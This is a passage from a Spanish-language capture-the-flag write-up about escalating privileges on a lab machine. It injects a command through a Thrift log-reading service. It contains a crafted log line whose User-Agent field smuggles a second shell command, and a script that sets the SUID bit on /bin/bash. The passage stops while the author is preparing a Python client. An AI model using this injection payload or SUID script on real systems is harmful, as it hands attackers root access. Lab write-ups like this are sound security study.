Todavía no se si este proceso lo está ejecutando `root` ya que aún no he enumerado a fondo la máquina víctima, pero ya estoy hecho a los CTF's y viendo que esta máquina la resolvieron en 10 minutos la parte de la escalada de privilegios...

Entonces, si tenemos un log que por ejemplo
```swift
127.0.0.1 - - [12/Sep/2024:15:03:21 +0000] "GET / HTTP/1.1" 200 2326 "-" "user-agent\":\"Mozilla/5.0\"; /bin/bash -c 'bash /tmp/pwn.sh' #"
```

Esto significa que por línea de comandos se ejecutará lo siguiente:
```bash
echo 'IP Address: 127.0.0.1, User-Agent: Mozilla/5.0"; /bin/bash -c 'bash /tmp/pwn.sh' #, Timestamp: 2024-09-12T15:03:21Z' >> output.log
```

## Command Injection
Por lo cual se ejecutaría un script en `/tmp/pwn.sh`
Entonces en la máquina víctima nos vamos a crear el script malicioso.
```console
margo@caption:/tmp$ cat pwn.sh 
#!/bin/bash

chmod u+s /bin/bash
```

También vamos a crear el log malicioso en `/tmp/evil.log`
```console
margo@caption:/tmp$ cat evil.log 
127.0.0.1 - - [12/Sep/2024:15:03:21 +0000] "GET / HTTP/1.1" 200 2326 "-" "user-agent\":\"Mozilla/5.0\"; /bin/bash -c 'bash /tmp/pwn.sh' #"
```

Ahora como he dicho antes, necesitamos el archivo `log_service.thrift` para poder mandar una petición al servidor, así que en nuestra máquina de atacante nos lo creamos.
```console
$ cat log_service.thrift 
namespace go log_service
     
service LogService {
        string ReadLogFile(1: string filePath)
}
```

Y vamos a hacer un simple script en Python que interactúe con este protocolo y lea el archivo log malicioso que hemos creado para que se acontezca la inyección de comandos.

Primero instalamos `thrift` para python.
```console
$ pip install thrift
```

Ahora instalamos `thrift-compiler` para convertir el archivo `log_service.thrift` en un formato para python.

```console
$ sudo apt update
$ sudo apt install thrift-compiler
```
